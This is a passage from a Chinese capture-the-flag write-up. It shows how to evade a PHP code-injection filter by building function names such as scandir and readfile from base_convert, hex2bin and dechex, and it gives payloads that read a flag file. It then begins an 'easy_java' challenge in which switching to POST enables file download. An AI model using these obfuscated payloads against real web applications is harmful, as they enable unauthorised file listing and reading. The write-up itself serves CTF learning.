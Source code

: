 我们发现`dechex`函数可以把10进制转换为16进制，我们可以再异或出`hex2bin`，来获取任意ASCII字符

```
D:\phpStudy\php\php-5.5.38
λ php -r "echo base_convert('scandir',36,10)";
61693386291
D:\phpStudy\php\php-5.5.38
λ php -r "echo hex2bin(dechex('47'))";
/
D:\phpStudy\php\php-5.5.38
λ php -r "echo hex2bin(dechex('46'))";
.
D:\phpStudy\php\php-5.5.38
λ php -r "echo hex2bin(dechex('32'))";
 这是空格 
```

可以构造`var_dump(base_convert(61693386291,10,36)(hex2bin(dechex(46)).hex2bin(dechex(47))))`相当于`car_dump(scandir(./))`

可以一级一级的查看目录，最终在根目录找到了flag的位置。`var_dump(base_convert(61693386291,10,36)(hex2bin(dechex(47))))`
文件名为`f1agg`,可以构造出`readfile(/f1agg)`来读取文件
构造为：`base_convert(2146934604002,10,36)(hex2bin(dechex(47)).base_convert(25254448,10,36))`就可以得到flag文件。

## easy_java

打开页面是一个登陆框
![](img/b390dd405fa499167fb671ce6d311c2f.png)

下面有一个help的链接，点进去发现没有东西，不能够下载文件，后来发现更改请求方式为post就可以下载文件了。
